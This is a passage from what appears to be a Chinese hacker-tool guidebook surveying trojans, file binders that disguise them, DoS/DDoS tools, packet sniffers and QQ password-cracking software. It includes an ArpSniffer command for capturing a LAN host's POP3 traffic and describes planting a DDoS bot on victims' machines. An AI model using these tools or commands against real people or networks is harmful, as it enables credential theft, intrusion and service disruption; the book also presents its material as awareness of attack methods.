

图8

## 3、木马程序

木马程序相信大家都熟悉得不能再熟悉了吧？这种程序最大的特点在于欺骗性，它往往伪装成其他对用户具有诱惑力的合法程序，从而让用户激活它，然后它就悄悄地“发挥它的功能”了。至于具体发挥什么功能，就要看木马的类型了。

现在网上最多的黑客程序就数木马了，不过木马各有不同的功能，具体的功能要看编写木马的黑客的目的。有些木马是后门型的，是为黑客打开访问远程计算机的门，为入侵提供了方便，比如：winshell、wolf；有些木马是远程控制型的，它们的功能异常强大，通过它们可以轻松地控制远程计算机进行各种操作，比如：冰河、BO、SUB7、广外女生、灰鸽子等等；有些木马则是窃密型的，它在你的计算机里潜伏着偷偷记录你的秘密（账户密码、游戏密码、信箱账号、敏感信息等）甚至是所有击键记录，比如：各种 QQ 木马、“Windows 大盗”、广外幽灵、传奇木马等都是这个类型的；还有许多其他类型的木马：攻击型木马会自动攻击别的计算机，破坏型的木马会破坏你系统或数据，综合型的木马集成多种功能，等等……

其中国产木马最有名、最老牌又经久不衰的要数冰河了。“冰河”是第一个“国产”的木马，如图9，它使用简单，界面优秀，功能强大，使得深入人心。它有一个客户端和服务器端，只要对方运行了服务器端程序，那就成功地种下了“冰河”，黑客可以用客户端进行连接后，通过它与远程机器建立一条连接通道，黑客通过这条通道可以进入远程计算机并进行控制。



图9

其他几种类型木马在本书第四章的《Windows 后门和木马》中有具体介绍，这里就不细讲了。

## 4、合并工具

合并工具是指可以把两个或多个可执行程序或其他程序捆绑成一个程序，执行捆绑后的程序就等于同时执行了这几个程序的工具。这些工具还往往可以自由选择更改文件图标，使捆绑后的程序更具迷惑性，而用户也更容易上当。合并工具一般是作为木马程序的辅助工具使用的，它们可以把木马程序合并到其他正常的大家普遍使用的程序上，然后提供给用户下载和发送给用户。当用户自以为运行的是“正常”程序时，木马却也被激活了。



**Join** 则是一个可将 exe 文件和任何档案结合的工具，包括图片文件、音效文件。最重要的功能就是在捆绑时能设定 ICQ 信息，一旦有人运行了一个合成后的程序，程序就立即将用户的 IP 等信息发到黑客的 ICQ 里。



合并工具也有许多，常用的合并工具有：GwBinder、开山文件合并器、Join.exe、exeBinder 等。

**GwBinder（广外文件合并器）**是一个优秀的合并程序，如图10，它可以一次最多绑定 10 个文件，加强了解绑程序的压缩率，使其体积减少一半，可以自定义图标、自定义解绑路径。

**开山文件合并器**合并后的文件自动进行压缩，使合并后的文件更小！对于一般的 exe 文件压缩率高达 50% 以上！专用于将任意多个文件（包括图片、文本文件等）合并为一个 .exe 文件，图标可以任意指定，如图11。

## 5、攻击工具

我们这里说的攻击工具，顾名思义是指所有黑客用来进行各种攻击的工具。黑客发动的攻击是多种的，所以具体的攻击工具也是多种多样的，包括各种拒绝服务攻击工具、各种 IP 数据包攻击程序、各种邮件攻击程序、各种漏洞溢出和利用程序、各种 QQ 攻击程序以及其他攻击程序。只要是用来达到攻击目的的黑客工具都可以归于这类范畴。由于攻击工具实在太多了，我们这里只能随便来介绍几个。

**蓝雪攻击者**是一种新型 IP 数据包攻击工具，如图12，对 WIN98/ME 有明显效果。运行环境 WIN98/2000/XP，威力极大，能使目标主机瞬间死机重启，攻击网吧及网吧内机器攻击效果 90% 以上。使用：填入对方 IP 攻击即可。



**Red Hacker III** 是一个非常不错的综合性攻击软件，如图13，威力强大，能进行 UDP 转移端口攻击，包括攻击最新的 514 端口漏洞，使用了多个线程，调用了多个 API 函数，使其攻击能力提升。如果网速正常，能使服务器死机或拒绝服务，还具有单机攻击格式化炸弹等。

**DDoS 攻击者**是一个 DDoS 攻击工具，如图14。DDoS 攻击者程序要通过生成器进行生成。生成时，可以自定义一些设置，如：要攻击目标的域名或 IP 地址、端口等。DDoS 攻击者程序默认的文件名为 DDoSer.exe，可以在生成时或生成后任意改名。然后把此程序发给用户或放到肉鸡上运行，程序便会自动驻入系统，不会显示任何界面，并在以后每次开机时自动随系统启动，在上网时自动对事先设定好的目标进行攻击。





## 6、嗅探工具

Sniffer 就是网络窃听器，它悄悄地工作在网络的低层，利用计算机的网络接口截取网络上传输的目的地为其他计算机的数据报文。管理员用它们来分析网络资源分布和网络流量是否异常，而黑客们则利用嗅探工具在监听网络中传输的他们感兴趣的敏感信息，从而便于发现可能存在的弱点。嗅探器在功能和设计方面有很多不同，有些只能分析一种协议，而另一些可能能够分析几百种协议。一般情况下，大多数的嗅探器至少能够分析下面的协议：标准以太网、TCP/IP、IPX、DECNet。嗅探器可以是硬件或软件，也可以是软硬件结合，不过专用的嗅探器价格非常昂贵，我们这里讲的主要是软件嗅探器。

我们这里主要介绍 Windows 平台下的嗅探器，UNIX 平台下的就不介绍了。最常用 Windows 平台上的嗅探器有：snifferpro、arpsniffer、snifft、netxray 等。



**Sniffer Pro** 是 NAI 公司出品，是目前最好的网络协议分析软件之一，支持 Windows NT/XP/2000/2003 平台，性能优越。它具有强大的抓包功能，能捕获网上监听到的任何协议、任何地址的数据包，也可以自定义过滤规则只截取特定类型的数据包，如图15。黑客们通过设定特定的规则能探测到许多“有用”的东西。

**PWSniffer** 是一个视窗平台下功能强大、容易使用的密码嗅探器，如图16。它是国内天行软件出品的，能运行于微软窗体下 95/98/ME/2000。它对网络进行嗅探，但只记录网络中传输的账号和口令信息，别的数据包则不记录，所以叫 passwdsniffer。它有着友善的视窗界面，不需要安装任何驱动程序，不需要重新启动机器，支持多达数十种的协议，包括 FTP、Telnet、SMTP、HTTP、POP、poppass、NNTP、IMAP、SNMP、LDAP、Rlogin、PPTP MS-CHAP、Microsoft SMB、Oracle SQL*Net 等等。而且它还是免费软件，没有任何功能限制。它也是一个黑客常用的嗅探工具。

**ARPSniffer** 则是一个基于交换环境的 Sniffer 工具，如图17，使用前需要安装 WINPCAP 驱动。它可以指定嗅探的网卡，包含了 IPRouter 的功能，不依靠于系统，也不用修改注册表。



图17

### 用法：

```text
Usage: ArpSniffer [IP1] [IP2] [Sniffer TCP Port] [LogFile].
```

IP1、IP2：在交换环境中需要 Sniffer 的两个 IP。  
Sniffer TCP Port：需要 Sniffer 的协议，例如 110、21、23 等；如果需要捕获所有的数据包用 * 即可。  
LogFile：将 Sniffer 到的内容存入文件。  

在非交换环境中，所有的数据包都会被捕获。例如 192.168.0 的局域网，网关为 192.168.0.1；如果想捕获 192.168.0.16 的 POP3 数据，可以这样：

```text
C:\>arpsniffer 192.168.0.1 192.168.0.16 110 log.txt
```



图16

## 刀光剑影

## 菜鸟必杀绝技

第三波


## 第三章 刀光剑影

## 菜鸟必杀绝技

## 第一节 QQ 攻击

QQ 是目前国内最最流行的网络即时聊天系统，它可以发送消息、传送文件、语音视频聊天、发送短信息等等，几乎每个上网的朋友都会有一个 QQ 号以方便朋友之间的联系。但是现在网上无聊之人甚多，QQ 的黑客工具也是随处可得。如果你是经常上网的朋友，那你是否有过 QQ 被炸、密码被盗的惨痛经历！你是不是对那些攻击你、盗你 QQ 号的家伙恨之入骨呢？你是不是想对这些无聊之辈展开反击呢？你是不是很想了解他们是如何攻击你的 QQ 的？本节就是揭露这些 QQ 攻击伎俩。

#### 一、QQ 密码窃取

QQ 攻击中最令网友们深恶痛绝的就是密码被盗、账号被窃了，因为 QQ 如果密码被盗窃那就是“连根拔起”了，而腾讯公司对 QQ 申请的限制更是雪上加霜。所以在介绍黑客惯用的 QQ 密码盗窃方法前，提醒广大 QQ 族们千万千万要到腾讯网站申请密码保护，同时注意千万千万别把取回 QQ 密码用的信箱随便填在 QQ 的个人通讯地址里，下面我们就来看下 QQ 密码到底是如何被盗的！

天空葵 QQ 密码探索者是一个 QQ 密码的在线破解软件，可在 Windows98/2000/XP 平台上运行，可以使用代理服务器。它自带字典并且还可以设置密码规律对 QQ 进行在线密码破解，具有自动检查空号、跳过空号、检查密保、是否跳过密码保护等功能。使用简单，界面简洁，可以最小化隐藏以方便在岗上跑，热键 Ctrl+Alt+9 呼出，连接失败后会自动重新连接，探测到号码后自动保存在 result.txt 文件中。

### 1、在线密码猜解

黑客一般首先使用的方法是在线破解法，就是使用工具对某个 QQ 号的密码一个一个进行猜解。此方法主要用来破解那些安全意识差、密码简单的朋友的 QQ，而且需要大量的时间才行。如果你的密码足够复杂（不要用生日等数字做密码，最好是用数字+英文+字符的组合），那么这种方法是很难破解你的密码的。常用的 QQ 在线密码猜解工具有：天空葵 QQ 密码探索者、QQExplorer、Qdreams 等等。



QQdreams 也是在线破解 QQ 密码的工具，如图1，可运行于 Windows98/2000/XP 